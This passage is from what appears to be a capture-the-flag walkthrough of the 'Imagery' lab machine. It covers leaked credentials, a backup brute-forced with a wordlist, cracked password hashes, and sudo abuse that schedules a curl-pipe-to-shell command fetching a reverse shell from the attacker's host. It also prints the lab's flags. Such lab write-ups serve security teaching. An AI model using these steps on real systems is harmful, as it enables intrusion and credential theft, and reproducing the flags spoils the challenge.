

I uses penelope, very recommended [https://github.com/brightio/penelope](https://github.com/brightio/penelope)
Here you can see the reverse shell i got.



### Find backup encryption, brute force the encryption and then crack mark credentials

We can notice inside the folder `/bot` the file `admin.py`, which contains these lines:
```py
# ----- Config -----
CHROME_BINARY = "/usr/bin/google-chrome"
USERNAME = "admin@imagery.htb"
PASSWORD = "strongsandofbeach"
BYPASS_TOKEN = "K7Zg9vB$24NmW!q8xR0p%tL!"
APP_URL = "http://0.0.0.0:8000"
# ------------------
```

So, the username `admin@imagery.htb` has the password `strongsandofbeach`.

Next, I used `peass-ng`. If we use `penelope`, we can easily press `F12`, and by this way detached from the session. Then, we just execute `run peass_ng`, and this will get execute on different window.
We can return back to the session by typing `interact`.

In this "other Interesting files" we can find `/usr/local/bin/pyAesCrypt`.



In addition, we can find interesting backup folder.
```bash
drwxr-xr-x 2 root root 4096 Sep 22 18:56 /var/backup
total 22516
-rw-rw-r-- 1 root root 23054471 Aug  6  2024 web_20250806_120723.zip.aes
```



We can see here it was encrypted using `pyAesCrypt`.



I found this script on the machine using the `find` command, and then tried  to decrypt this with both password, however nothing works.
```bash
web@Imagery:/tmp/my_back$ python3 pyAesCrypt web_20250806_120723.zip.aes -o web_20250806_120723.zip -d -p strongsandofbeach
Warning: passing passwords as plaintext command-line arguments may be unsafe.
Wrong password (or file is corrupted).
web@Imagery:/tmp/my_back$ python3 pyAesCrypt web_20250806_120723.zip.aes -o web_20250806_120723.zip -d -p iambatman
Warning: passing passwords as plaintext command-line arguments may be unsafe.
Wrong password (or file is corrupted).
```

That's means we need to brute force.
After struggling with ChatGPT, I managed to write brute force script in python that uses the `pyAesCrypt` module

```py

```

First, we need to make venv, and then activate and install the package `pyAesCrypt`.
```bash
┌──(agonen㉿kali)-[~/htb/Imagery]
└─$ python3 -m venv .venv                                                        
                                                                                                                                                                                        
┌──(agonen㉿kali)-[~/htb/Imagery]
└─$ source .venv/bin/activate
                                                                                                                                                                                        
┌──(.venv)─(agonen㉿kali)-[~/htb/Imagery]
└─$ pip install pyAesCrypt     
```

Then, we can brute force using the `rockyou.txt` wordlist.
```bash
┌──(.venv)─(agonen㉿kali)-[~/htb/Imagery]
└─$ python3 crack.py web_20250806_120723.zip.aes /usr/share/wordlists/rockyou.txt
Starting attempts on 'web_20250806_120723.zip.aes' using wordlist '/usr/share/wordlists/rockyou.txt' (14344392 candidates)...
Attempted 100/14344392 passwords... (elapsed 1.5s)
Attempted 200/14344392 passwords... (elapsed 2.9s)
Attempted 300/14344392 passwords... (elapsed 4.4s)
Attempted 400/14344392 passwords... (elapsed 5.9s)
Attempted 500/14344392 passwords... (elapsed 7.3s)
Attempted 600/14344392 passwords... (elapsed 8.8s)

SUCCESS! Password found: 'bestfriends'
Decrypted file written to: /tmp/aes_recover_dwijsht4
Attempts: 670, Time elapsed: 9.9s
If you want, move the file to a permanent location and inspect.
```

We can check with `pyAesCrypt` the password `bestfriends` is the real password:
```bash
┌──(.venv)─(agonen㉿kali)-[~/htb/Imagery]
└─$ pyAesCrypt -o decrypt.zip -p bestfriends -d web_20250806_120723.zip.aes 
Warning: passing passwords as plaintext command-line arguments may be unsafe.
                                                                                                                                                                                    
┌──(.venv)─(agonen㉿kali)-[~/htb/Imagery]
└─$ ls
admin@imagery.htb.log  crack.py  decrypt.zip  pyAesCrypt  rev_shell.sh  web_20250806_120723.zip.aes

┌──(.venv)─(agonen㉿kali)-[~/htb/Imagery]
└─$ unzip decrypt.zip -d decrypt/              
```

Now we go back to `db.json`:
```json
{
    "username": "mark@imagery.htb",
    "password": "01c3d2e5bdaf6134cec0a367cf53e535",
    "displayId": "868facaf",
    "isAdmin": false,
    "failed_login_attempts": 0,
    "locked_until": null,
    "isTestuser": false
},
{
    "username": "web@imagery.htb",
    "password": "84e3c804cf1fa14306f26f9f3da177e0",
    "displayId": "7be291d4",
    "isAdmin": true,
    "failed_login_attempts": 0,
    "locked_until": null,
    "isTestuser": false
}
```

Let's crack them using [https://crackstation.net/](https://crackstation.net/).



mark's password is `supersmash`
```bash
01c3d2e5bdaf6134cec0a367cf53e535:supersmash
84e3c804cf1fa14306f26f9f3da177e0:spiderweb1234
```

we need to connect back to `web`, and then `su` to `mark` using the password `supersmash`:
```bash
web@Imagery:~/web$ su mark
Password: 
mark@Imagery:/home/web/web$ cat ~/user.txt 
05faa9953aa5ebe82391dc1f700088df
```

### Privilege Escalation to Root

When executing `sudo -l`, we can execute `/usr/local/bin/charcol` with no password.

```bash
ark@Imagery:~$ sudo -l
Matching Defaults entries for mark on Imagery:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User mark may run the following commands on Imagery:
    (ALL) NOPASSWD: /usr/local/bin/charcol
```

So, first:
```bash
sudo /usr/local/bin/charcol shell
``` 
then, we can add scheduald command, we'll use the same payload we used in the beginning:
```bash
auto add --schedule "* * * * *" --name "GIVE ME ROOT SHELL" --command "curl http://10.10.16.44:8081/rev_shell.sh | sh"
```

Now just wait for the miracle to happen, here you can see the remote server asking from my local machine for `rev_shell.sh`


And here i got the root shell.



Now, let's get the root flag:



```bash
root@Imagery:~# cat /root/root.txt
a49171570e5551035469fd317cef4897
```

**User Flag:*****`05faa9953aa5ebe82391dc1f700088df`***

**Root Flag:*****`a49171570e5551035469fd317cef4897`***
